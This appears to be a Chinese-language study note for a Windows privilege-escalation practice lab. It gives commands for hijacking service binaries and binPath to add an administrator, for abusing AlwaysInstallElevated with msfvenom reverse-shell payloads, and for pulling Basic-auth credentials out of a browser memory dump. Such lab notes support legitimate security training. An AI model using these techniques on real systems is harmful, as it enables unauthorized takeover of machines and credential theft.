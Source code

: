 # Windows PrivEsc Arena

学完进攻性渗透测试，windows是非常重要的，所以我打算从普通的windows提权开始

---

### 自动运行 提权

    1. 打开命令提示符并键入: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
    2. 在“自动运行”中，单击“登录”选项卡。
    3. 从列出的结果中，请注意“我的程序”条目指向“C：\程序文件\自动运行程序\程序.exe”。
    4. 在命令提示符下键入：C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
    5. 从输出中，请注意“所有人”用户组对“程序.exe”文件具有“FILE_ALL_ACCESS”权限。

我们可以选择使用msfvenom生成反向shell.exe覆盖掉该程序，当用户登录事件触发时，我们将能getshell

---

### 始终最高权限安装 提权

    1.打开命令提示符并键入：reg query HKLM\Software\Policies\Microsoft\Windows\Installer
    2.从输出中，请注意“AlwaysInstallElevated”值为 1。
    3.In 命令提示符类型：reg query HKCU\Software\Policies\Microsoft\Windows\Installer
    4.从输出中，请注意“AlwaysInstallElevated”值为 1。

当该值为1时，这将意味着我们安装msi文件的时候总会以system权限进行，我们可以生成msi的反向shell，当安装该msi文件时，我们将获得system权限的shell

    msiexec /quiet /qn /i C:\Temp\setup.msi

---

### 可执行文件 服务 提权

    accesschk64.exe -wvu "C:\Program Files\File Permissions Service"

请注意，“Everyone”用户组对 filepermservice.exe 文件具有“FILE_ALL_ACCESS”权限。

    1.打开命令提示符并键入: copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
    2.在命令提示符下键入：sc start filepermsvc

我们也可以使用msf生成exe-service类型的exe，然后将其覆盖

    msfvenom -f exe-service

---

### 系统启动执行可执行文件提权

    icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

如果我们拥有修改和写入权限，我们可以生成shellcode可执行文件并添加此处，当系统启动时，我们将能获得system的shell

---

### service binPath提权

    1. 打开命令提示符并键入：C：\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

请注意，输出表明用户“User-PC\User”拥有“SERVICE_CHANGE_CONFIG”权限。

    sc config daclsvc binpath=“net localgroup administrators user /add”

    sc stop daclsvc
    sc start daclsvc

我们拥有权限，我们可以直接修改binpath，可以是命令，也可以是可执行文件，然后重启服务

我们还可以使用命令：

    sc qc <serviceName>

来查看指定服务的"服务启动用户"

---

### 未带引号的服务路径提权

    sc qc <serviceName>

如果binpath没有被引号包裹，并且路径中还存在空格，那就意味着要出事

例如：C:\Program Files\hack.exe

我们都知道，cmd下执行命令xxx.exe和xxx，都会运行xxx.exe

如果未被引号包裹，假设C:\下存在Program.exe，那么将会执行Program.exe，而空格后的将只是作为参数传入Program.exe

---

### 配置文件

    C:\Windows\Panther\Unattend.xml

---

### 内存转储

1.Open command prompt and type: msfconsole
2.In Metasploit (msf > prompt) type: use auxiliary/server/capture/http_basic
3.In Metasploit (msf > prompt) type: set uripath x
4.In Metasploit (msf > prompt) type: run

Windows VM

1.Open Internet Explorer and browse to: http://[Kali VM IP Address]/x
2.Open command prompt and type: taskmgr
3.In Windows Task Manager, right-click on the “iexplore.exe” in the “Image Name” columnand select “Create Dump File” from the popup menu.
4.Copy the generated file, iexplore.DMP, to the Kali VM.

Kali VM

1.Place ‘iexplore.DMP’ on the desktop.
2.Open command prompt and type: strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"
3.Select the Copy the Base64 encoded string.
4.In command prompt type: echo -ne [Base64 String] | base64 -d
5.Notice the credentials in the output.

---

### 内核漏洞

借助msf扫描器识别存在的漏洞

    post/multi/recon/local_exploit_suggester
